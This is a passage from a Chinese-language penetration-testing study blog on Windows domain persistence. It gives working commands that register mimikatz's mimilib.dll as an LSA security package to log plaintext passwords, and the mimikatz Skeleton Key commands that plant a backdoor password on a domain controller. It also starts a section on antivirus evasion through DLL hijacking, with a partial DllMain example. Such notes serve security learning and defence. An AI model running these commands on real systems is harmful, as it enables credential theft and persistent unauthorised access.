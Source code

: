 将mimikatz中的mimilib.dll文件copy至C:\Windows\system32目录下，并添加到注册表中即可。这里做一个朴实无华的搬运工

```cmd
copy mimilib.dll %systemroot%\system32
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

明文会被记录在 `C:\Windows\system32\kiwissp.log` 下面

- 自我感想
对于这种需要重启（注销）生效的，我比较困惑。在实际的内网渗透中，真的会使用这样的方法去捕获明文密码吗？出于困惑，去问了问群里的师傅，对于服务类的，如跑着web服务器，数据库服务器的，这种机器可能一年都不会重启一次。所以这种攻击方式，可能更加适用于域内的个人PC机，通过强制注销等来获取密码。（不过我觉得还是太过于被动了，人为触发不稳定）
这种获取明文的方式，其实和修改注册表中的WDigest值一样，需要主动锁屏，所以个人PC机上会比较好用

### **Skeleton Key**

> 相比与SSP的注销（重启）触发，Skeleton Key则是一种不需要且较好使用的方法~

使用mimikatz即可，适用版本在windows 2003 - 2012r2

```shell
privilege::debug
misc::skeleton
```

之后就可以使用 "mimikatz" 作为后门密码去连接域控。其原理是直接对lsass.exe进行注入

## 0x08 免杀绕过

> 这是一个绕不过的话题，在本地搭建的环境中，往往不会给自己增加过多的对抗。而显示情况下，对方往往有杀软，HIDS，流量监控等等。免杀绕过是一个永恒的问题，同样的我目前还是做的比较浅。还是同样的，遇到了，就记录下来

记群里师傅的话：**dll劫持服务（如双dll做函数转发），pe感染，比较主流的两个过杀软维权方式**

### DLL相关

什么是DLL劫持?Dll(Dynamic Link Library)即动态链接库。当程序运行时，首先在当前程序所在目录加载DLL文件，如果没有则到Windows系统目录，最后再到环境变量中去遍历。若当某应用程序没有对DLL本身做校验，通过导出输出表，使每个函数转向真正的Dll，再将代码穿插在Dll中，即实现了劫持

#### DllMain

> 学习参考[链接](https://payloads.online/archivers/2019-10-02/1)如下，倾旋的文章写的非常详细，我就先搬运一部分了

1. 程序调用 Dll 中导出函数的流程
   帮助我们理解dll加载，这里就直接搬运了
   - 程序调用Windows API `LoadLibrary`
   - 操作系统寻找 `LoadLibrary` 所加载的DLL文件
   - 操作系统将DLL文件加载至目标程序进程的内存空间
   - 程序自动调用 `DllMain` 函数
   - 程序调用DLL中导出函数

2. 从一段代码阐述DllMain（从xx师傅学习来）

   ```cpp
   #include "pch.h"
   #include <iostream>
   #include <Windows.h>
   
   extern "C" __declspec(dllexport) void printMessageBox()
   // 导出函数，实例中运用到的dllexport用于在dll中将函数、类等申明为导出函数，供其他程序调用
   // 对应的还有dllimport，用于从别的动态链接库中导入函数、类、对象等供本地动态库或者exe调用
   {
      int x;
      x = MessageBoxA(GetForegroundWindow(), "Hello World", "by testdll", 1);
   }
   
   BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved)
   {
   ```